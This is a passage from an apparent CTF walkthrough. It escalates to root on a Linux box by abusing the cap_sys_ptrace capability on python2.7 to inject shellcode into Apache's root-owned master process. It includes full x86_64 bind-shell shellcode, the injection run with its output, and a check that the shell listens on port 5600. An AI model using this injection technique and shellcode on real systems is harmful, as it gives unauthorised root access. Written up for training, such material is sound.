 Oh! We can see **`/usr/bin/python2.7` has `cap_sys_ptrace` capability**!

According to [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace) and [https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc), we can escalate our privilege to `root`!

> `CAP_SYS_PTRACE` means that you can escape the container by injecting a shellcode inside some process running inside the host. (From [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace))

- Find Apache's master Process ID (PID):

```shell
saket@ubuntu:~$ ps -eaf
UID          PID    PPID  C STIME TTY          TIME CMD
[...]
root        1042       1  0 01:06 ?        00:00:03 /usr/sbin/apache2 -k start
[...]
www-data    3538    1042  0 02:43 ?        00:00:01 /usr/sbin/apache2 -k start
[...]
```

**Apache's master process ID: `1042`**

- Check the architecture of the machine:

```shell
saket@ubuntu:~$ arch
x86_64
```

It's a 64-bit Linux machine.

- Grab the 64-bit Linux bind shellcode from [https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128):

```c
\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05
```

The above shellcode will trigger a bind TCP shell on port 5600.

- Copy the Python exploit from [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace) and paste it to the target machine: (You can replace the shellcode to the one that you grabbed from Exploit-DB.)

```shell
saket@ubuntu:~$ nano /tmp/inject.py
```

- Run the exploit with the Apache PID:

```shell
saket@ubuntu:~$ /usr/bin/python2.7 /tmp/inject.py 1042
Instruction Pointer: 0x7f8a7b8630daL
Injecting Shellcode at: 0x7f8a7b8630daL
Shellcode Injected!!
Final Instruction Pointer: 0x7f8a7b8630dcL
```

**Check the bind TCP shell is listening or not:**
```shell
saket@ubuntu:~$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
[...]              
tcp        0      0 0.0.0.0:5600            0.0.0.0:*               LISTEN      -                   
```